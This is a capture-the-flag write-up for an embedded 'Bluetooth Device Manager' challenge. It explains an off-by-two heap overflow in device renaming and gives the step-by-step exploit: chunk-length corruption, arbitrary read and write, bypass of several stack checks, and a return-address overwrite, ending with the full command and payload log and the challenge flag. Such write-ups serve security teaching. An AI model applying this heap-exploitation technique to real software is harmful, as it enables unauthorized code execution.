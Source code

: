 # Bluetooth Device Manager
You have a basic car model and would like to enable some extra features? That navigation with traffic should be neat. Right. It is expensive, you know. Or not, if you can access the control interface. Try bluetooth this time. We think, it could be used for purposes other than making calls and playing MP3s.

## Write-up
This challenge has a console to create, edit and delete bluetooth devices. We will need exploit it to get the flag. 

1.  We found the string **such heap, much pr0!** and the function to print the flag at address 0182

2.  Analyzing the code to create, edit and delete objects we find one bug... The code to rename a device doesn't reallocate space and it doesn't check the length correctly. The new name can be 2 bytes larger than the previous name so we can overwrite the termination 00 of previous string and the length of next heap chunk.
    
3. Test bug...
   1. Create a device
   2. Edit the device changing sending the larger name
   3. Print the device
```
Log:
2
bbbbb
aaaaa
4
0
bbbbbac (don't ask key)
1

Output:
0. name: bbbbbac, key: 
```

4. Exploit the bug...
   1 - Create two devices (#0 and #1)
   2 - Rename device #0 and use the bug to replace the length of the key chunk. We need add to this length, the length of the complete device #1
   3 - Delete device #0... As the key chunk has a modified length, and it matches with the end of used heap, it will think that the heap is empty after the deletion. But the pointer to device #1 remains set 
   4 - Create a third device (#2) with the correct lengths to overwrite the position of the pointers of device #1 
   5 - Printing and renaming device #1 we can read and write any addresses  
	
5. We need overwrite the stack to set the return address to 0182 (the address of print flag function). But we have to bypass 4 security measures before
   1. SP points to different address each execution
   2. Values at 2000:2001 must be 0DF0
   3. SP must match the values at 2192:2193
   4. Values at 2002:2003 must be ADBA

6. Solutions...  
   1. We can read address 2192:2193 to see where is pointing the SP (the value read minus 2)
   2. We can write it, no problem
   3. We can jump to 0185 instead 0182 to avoid three push and pass this check
   4. We can write it, no problem, but we have to be careful to not corrupt the USART0 pointer at 2004:2005
	
7. Do all the steps carefully and get the flag
```
COMPLETE LOG OF COMMANDS:
(Create device 0)
2
12345
12345

(Create device 1)
2
12345
12345

(Rename device 0 to overwrite key chunk length with value 0x23)
4
0
123456#23xx

(Delete device 0)
3
0

(Create device 2 with special key to set pointer to 2192)
2
12345
123456#0B#01#01#06#01#06#01#92#21#AE#3F#00

(Print device to see values at 2192)
1 
(
Result:
31 0A 31 2E 20 6E 61 6D 65 3A 20 1B 3F 03 31 2E 20 6E 61 6D 65 3A 20 1B 3F 03 31 2E 20 6E 61 6D
65 3A 20 1B 3F 03 2C 20 6B 65 79 3A 20 41 22 2E 04 65 6C 03 0A 32 2E 20 6E 61 6D 65 3A 20 31 32
-> We will have to overwrite 3F1B - 2 = 3F19
)

(Edit device 2 to set pointers to 1FFF(to overwrite 200x values) and 3F19(to overwrite return address))
4
2
12345
123456#0B#01#01#06#01#06#01#FF#1F#19#3F#00

(Edit device 1 to write data to 200x and SP)
4
1
#01#0D#F0#AD#BA#A0#08                          <- Set 0DF0ADBA and maintain the pointer to USART0 (08A0)
#01#85                                         <- Overwrite return address

such heap, much pr0!
Your flag: a1b51ac1c17b930ef189cea65688c964
```